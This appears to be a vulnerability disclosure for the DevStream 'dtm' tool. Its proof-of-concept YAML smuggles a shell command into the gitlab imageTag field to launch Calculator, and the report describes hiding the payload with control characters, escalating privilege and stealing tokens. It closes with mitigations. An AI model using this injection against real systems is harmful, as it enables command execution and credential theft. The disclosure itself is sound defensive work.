 ## POC

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```

利用方法为 gitlab ce image 没用启动对应 Container 的时候，执行 `dtm apply -f this.yaml -y` 之后弹出计算器

Exploiting this by executing `dtm apply -f this.yaml -y` and open calc process when gitlab ce image has no container running.

imageTag 无过滤内容，可用退格和 rewind （ascii 同理）以及 # 注释符号搭配使用，对用户进行欺骗

ImageTag filters nothing. Using backspace `\b` or rewind `\r` (ascii also works)with comment `#` cheats privileged user to execute.

## 危害与利用方法 

**首先配置文件本身并没有被项目做权限检查存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

**Above all, the config file premission is loose and no check.It's possible for user who has same or lower privilege to modify config.There provides an attack vector from file writing to command execution.**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**

Then, Project uses `docker` `kubectl` which needs root or docker group to exec in many packages. **So, `dtm` is always using with high-privileged user.**

由于项目的目的是构造整体的生产环境工具链，也同样聚集了多数最佳实践的配置，同时又支持环境变量或者其他文件读取配置，**所以用户可能并不会对工具配置文件本身亲力亲为。**

Because of the aim of project is completion of production environment toolchains and contains more config with best efforts. Project also allows environment vars or other files to "know" local config. **So user may not put more attention on config files of  tools.**

也存在一种场景，假设**用户配置文件可以通过远程分发和维护**的时候，例如 nacos 统一配置全公司的技术栈和工具链，通过这种配置文件的污染，（能够进行污染的时候，部署的服务和CICD服务可能均已遭到不测），甚至可以导致员工的办公区电脑被入侵。

Another attack scenario is remote delivery and maintenance of users' config file, such as using Nacos unify toolchains and techniques in whole company. Polluting this config file will make computers of developer in office network in danger. (But The Deployment servers and CICD Services is got hacked at that time)

当然命令这里不只是 Open 计算器，由于ImageTag中没有多数的过滤，所以我们几乎可以做任何操作，包括但不限于下载木马文件进行执行，并且由于教程中含有通过环境变量的值的方法传入各种 Token 所以也存在使用 curl 或者其他方法向黑客的恶意 Webhook 服务器发送带有生产或是测试环境的相关的配置从而造成更大的危害。

Not only Calc process openning there, Because of ImageTag loose filter, We can do everything not only downloading trojan but also stealing tokens and other config via command like `curl` callback to hackers webhook server.

因此，该 ISSUE 具有一定的（对使用者的）欺骗性质，在权限提升和横向渗透中具有利用空间。

##### TODO

## 可行的缓解与修复

可以使用 go client for docker engine 实现。

如果非要使用 exec.Command 可以将第一位二进制参数设置为 docker 替换  sh -c 便会大大降低被注入额外命令的风险

